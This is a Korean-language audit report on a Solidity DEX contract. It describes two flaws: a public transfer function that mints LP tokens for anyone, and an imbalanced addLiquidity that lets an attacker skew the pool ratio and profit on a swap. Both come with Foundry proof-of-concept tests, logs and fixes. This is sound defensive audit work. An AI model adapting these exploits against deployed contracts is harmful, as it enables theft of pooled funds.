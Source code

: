 # 김영운

## public transfer & mint LP token
#### Dex.sol:transfer:172
****critical (공격 파급력: High, 공격 난이도: Low)****

```solidity
function transfer(address to, uint256 lpAmount) public override(ERC20, IDex) returns (bool) {
    _mint(to, lpAmount);
    return true;
}
```

ERC20 컨트랙트를 상속받은 Dex컨트랙트에서 LP token을 발급해주는 기능을 하는데, transfer함수를 public 가시성 지정자로 설정해 놨기 때문에 누구든 transfe함수를 호출하는 사람은 임의로 LP token을 발급받을 수 있다는 취약점이 존재한다.

#### PoC

```solidity
function testTransferVisibility() external {
    vm.startPrank(user1);
    dex.transfer(address(this), 1000 ether);
    uint amount = dex.balanceOf(address(this));
    console.log("balanceOf user1's LPtoken: %d", amount);
    amount = dex.totalSupply();
    console.log("amountOf LPtoken totalSupply: %d", amount);
    vm.stopPrank();
    assertTrue(!(amount == 1000 ether), "testTransferVisibility Error");
}
```

```solidity
[FAIL. Reason: Assertion failed.] testTransferVisibility() (gas: 72737)
Logs:
  balanceOf user1's LPtoken: 1000000000000000000000
  amountOf LPtoken totalSupply: 1000000000000000000000
  Error: testTransferVisibility Error
  Error: Assertion Failed
```

위와 같이 transfer함수를 호출함으로써 유동성 공급할 필요 없이 LP token을 mint할 수 있다.

#### 해결방안

transfer함수의 가시성 지정자를 private으로 변경하고 토큰을 민팅할 때도 _mint함수를 이용해서 minting하는 방법으로 바꿔야 한다.

## Imbalance addLiqudity 풀 오염
#### Dex.sol:addLiquidity:59-79
**medium (파급력: medium, 공격 난이도: Medium)**

```solidity
function addLiquidity(uint tokenXAmount, uint tokenYAmount, uint tokenMinimumOutputAmount) external override nonReentrant returns (uint) {
    require(tokenXAmount > 0 && tokenYAmount > 0, "Amounts must be greater than zero.");    
    require(tokenX.allowance(msg.sender, address(this)) >= tokenXAmount, "ERC20: insufficient allowance");
    require(tokenY.allowance(msg.sender, address(this)) >= tokenYAmount, "ERC20: insufficient allowance");
    require(tokenX.balanceOf(msg.sender) >= tokenXAmount, "ERC20: transfer amount exceeds balance");
    require(tokenY.balanceOf(msg.sender) >= tokenYAmount, "ERC20: transfer amount exceeds balance");
    
    uint lpTokenCreated;
    uint tokenXReserve;
    uint tokenYReserve;
    uint liquidityX;
    uint liquidityY;

    if (totalLiquidity == 0) {
        // 정밀도 
        lpTokenCreated = _sqrt(tokenXAmount * tokenYAmount); 
        require(lpTokenCreated >= tokenMinimumOutputAmount, "Minimum liquidity not met."); 
        totalLiquidity = lpTokenCreated;
    } else {
        {
            tokenXReserve = tokenX.balanceOf(address(this));
            tokenYReserve = tokenY.balanceOf(address(this));
        
            
            // L_x = X*P_x, L_y = Y*P_y (유동성 가치의 토큰 가치 비례) => P_x = L_x/X
            liquidityX = _div(_mul(tokenXAmount, totalLiquidity), tokenXReserve);
            liquidityY = _div(_mul(tokenYAmount, totalLiquidity), tokenYReserve);

        }
        // 최소 수량 유동성 공급 검증
        lpTokenCreated = (liquidityX < liquidityY) ? liquidityX : liquidityY;
        require(lpTokenCreated >= tokenMinimumOutputAmount, "Minimum liquidity not met."); 
        totalLiquidity += lpTokenCreated;
    }

    liquidity[msg.sender] += lpTokenCreated;
    tokenX.transferFrom(msg.sender, address(this), tokenXAmount);
    tokenY.transferFrom(msg.sender, address(this), tokenYAmount);

    transfer(msg.sender, lpTokenCreated);
    emit AddLiquidity(msg.sender, tokenXAmount, tokenYAmount);
    
    return lpTokenCreated;
}
```

최소 유동성을 기준으로 LP token을 발급해주는 방식으로 addLiquidity가 구현되어 잇는데, 이 때 imbalance한 공급을 주더라도 transferFrom으로 전부 받아오도록 되어 있다.

이를 이용한 공격 시나리오는 다음과 같다.

1. A는 100 ETH를 가지고 있고, ETH price = 4000 ether, USDC price = 1 ether인 상황
2. Lending protocol의 ETH-USDC 풀에 ETH조금과 USDC를 엄청 많이 addLiquidity한다.
3. 풀의 토큰 비율이 변경되었으므로 A는 변경된 비율로 ETH를 USDC로 swap한다.
4. 기존의 ETH로 얻을 수 있는 USDC의 양보다 많은 양의 USDC를 swap할 수 있게 된다.

#### PoC

```solidity
function testManyETH() external {
    dex.addLiquidity(4000000 ether, 1000 ether, 0);
    vm.startPrank(user1);
    uint lp = dex.addLiquidity(8000000 ether, 1 wei, 0);
    uint outputUSDC = dex.swap(0, 1000 ether, 0);
    console.log("outputUSDC: %d", outputUSDC);
    console.log("1000*4000: %d", 1000 * 4000 ether);
    vm.stopPrank();
}
```

```solidity
[PASS] testManyETH() (gas: 321793)
Logs:
  outputUSDC: 5996998499249624812403203
  1000*4000: 4000000000000000000000000
```

공격자는 해당 풀의 균형을 깨트려서 비싼 가격에 ETH를 swap했고, 슬리피지가 없는 스왑을 했다고 쳐도 그 이상의 이익을 볼 수 있다.

#### 해결방안

```solidity
function addLiquidity(uint tokenXAmount, uint tokenYAmount, uint tokenMinimumOutputAmount) external override nonReentrant returns (uint) {
    require(tokenXAmount > 0 && tokenYAmount > 0, "Amounts must be greater than zero.");    
    require(tokenX.allowance(msg.sender, address(this)) >= tokenXAmount, "ERC20: insufficient allowance");
    require(tokenY.allowance(msg.sender, address(this)) >= tokenYAmount, "ERC20: insufficient allowance");
    require(tokenX.balanceOf(msg.sender) >= tokenXAmount, "ERC20: transfer amount exceeds balance");
    require(tokenY.balanceOf(msg.sender) >= tokenYAmount, "ERC20: transfer amount exceeds balance");
    
    uint lpTokenCreated;
    uint tokenXReserve;
    uint tokenYReserve;
    uint liquidityX;
    uint liquidityY;

    if (totalLiquidity == 0) {
        // 정밀도 
        lpTokenCreated = _sqrt(tokenXAmount * tokenYAmount); 
        require(lpTokenCreated >= tokenMinimumOutputAmount, "Minimum liquidity not met."); 
        totalLiquidity = lpTokenCreated;
    } else {
        {
            tokenXReserve = tokenX.balanceOf(address(this));
            tokenYReserve = tokenY.balanceOf(address(this));
        
            
            // L_x = X*P_x, L_y = Y*P_y (유동성 가치의 토큰 가치 비례) => P_x = L_x/X
            liquidityX = _div(_mul(tokenXAmount, totalLiquidity), tokenXReserve);
            liquidityY = _div(_mul(tokenYAmount, totalLiquidity), tokenYReserve);

        }
        // 최소 수량 유동성 공급 검증
        lpTokenCreated = (liquidityX < liquidityY) ? liquidityX : liquidityY;
        if(lpTokenCreated == liquidityX){
            tokenYAmount = tokenYReserve * tokenXAmount / tokenXReserve;
        }else{
            tokenXAmount = (tokenXReserve * tokenYAmount) / tokenYReserve;
            console.log("!%d",tokenXAmount);
        }
        require(lpTokenCreated >= tokenMinimumOutputAmount, "Minimum liquidity not met."); 
        totalLiquidity += lpTokenCreated;
    }

    liquidity[msg.sender] += lpTokenCreated;
    tokenX.transferFrom(msg.sender, address(this), tokenXAmount);
    tokenY.transferFrom(msg.sender, address(this), tokenYAmount);

    transfer(msg.sender, lpTokenCreated);
    emit AddLiquidity(msg.sender, tokenXAmount, tokenYAmount);
    
    return lpTokenCreated;
}
```

```solidity
[PASS] testManyETH() (gas: 322673)
Logs:
  outputUSDC: 1998999499749874937469733
  100*4000: 400000000000000000000000
```

유동성 공급량이 적은 토큰을 기준으로 비율을 깨는 토큰은 받지 않도록 tokenAmount를 변경했다.

위 패치를 통해서 imbalance한 토큰으로 LP token을 얻는 방식의 공격도 막을 수 있게 된다.
